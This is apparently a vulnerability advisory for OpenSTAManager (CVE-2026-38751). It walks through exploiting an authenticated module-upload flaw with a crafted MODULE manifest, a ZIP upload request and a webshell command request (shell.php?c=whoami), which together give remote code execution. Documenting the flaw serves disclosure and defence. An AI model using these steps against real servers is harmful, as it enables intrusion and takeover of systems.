

**Product Information:**

- **Product Name:** OpenSTAManager
- **Vendor:** DevCode (https://devcode.it/)
- **Project Homepage:** https://openstamanager.com/
- **GitHub Repository:** https://github.com/devcode-it/openstamanager
- **Description:** OpenSTAManager is an open-source Italian technical support and billing management software developed in PHP, providing complete CRM functionality including customer management, invoice generation, technical support ticketing, and module/plugin update system.

**Vulnerability Summary:**

- **CVE ID:** CVE-2026-38751
- **Vulnerability Type:** Arbitrary File Upload leading to Remote Code Execution (RCE)
- **Affected Versions:** <= 2.10.x
- **Vulnerable File:** `modules/aggiornamenti/upload_modules.php`
- **Prerequisites:** Backend/Admin Login Required


---

### Step 1: Prepare the Malicious ZIP File

Create a ZIP file containing a MODULE file and a PHP WebShell:

MODULE

```
name = "shell"
directory = "shell"
version = "1.0"
compatibility = "2.10"
options = ""
icon = "fa fa-bug"
parent = "Dashboard"
```

### Step 2: Upload the Malicious File

Visit the target site's module update feature and upload the crafted ZIP file:

```
POST /modules/aggiornamenti/upload_modules.php
Content-Type: multipart/form-data

[Upload exploit.zip file]
```



### Step 3: Execute Commands

Access the uploaded PHP file to execute arbitrary commands:

```
GET /modules/shell/shell.php?c=whoami
```

---
